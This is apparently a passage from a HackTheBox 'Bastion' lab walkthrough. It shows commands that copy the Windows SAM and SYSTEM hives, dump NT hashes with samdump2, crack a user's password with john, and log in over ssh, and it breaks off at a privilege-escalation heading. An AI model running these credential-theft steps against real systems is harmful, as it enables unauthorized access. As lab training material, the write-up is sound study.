 I go to folder contain file `SAM` and file `SYSTEM` at `/Windows/System32/config` to copy it and dump credentials.

```
┌──(root💀kali)-[/mnt]
└─# cd vhd/Windows/System32/config

┌──(root💀kali)-[/mnt/vhd/Windows/System32/config]
└─# ls -l SAM SYSTEM
-rwxrwxrwx 1 root root  262144 Feb 22  2019 SAM
-rwxrwxrwx 1 root root 9699328 Feb 22  2019 SYSTEM
```

Using `samdump2` dump credentials of user in the system and save the hash to file.

```
┌──(Hades㉿10.10.14.5)-[0.9:28.9]~/walkthrough/hackthebox/bastion
└─$ samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
                                                                                                                                                                            
┌──(Hades㉿10.10.14.5)-[0.9:28.9]~/walkthrough/hackthebox/bastion
└─$ samdump2 SYSTEM SAM > hash
```

Using john with format NT and rockyou.txt directory to crack file hash. 

```
┌──(Hades㉿10.10.14.5)-[0.9:29.0]~/walkthrough/hackthebox/bastion
└─$ john --format=NT --wordlist=/home/kali/directory/rockyou.txt hash
<snip>
bureaulampje     (L4mpje)
<snip>
Session completed
```

Password creacked, I got the password: `bureaulampje`. Based on the info gathering, the system openning port 22, allow ssh to server. Let's using cracked credential and access to Bastion.

```
┌──(Hades㉿10.10.14.5)-[0.9:29.0]~/walkthrough/hackthebox/bastion
└─$ ssh L4mpje@10.10.10.134               
L4mpje@10.10.10.134's password: 
<snip>
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

l4mpje@BASTION C:\Users\L4mpje>whoami                                                                                           
bastion\l4mpje
```

## Privilege Escalation
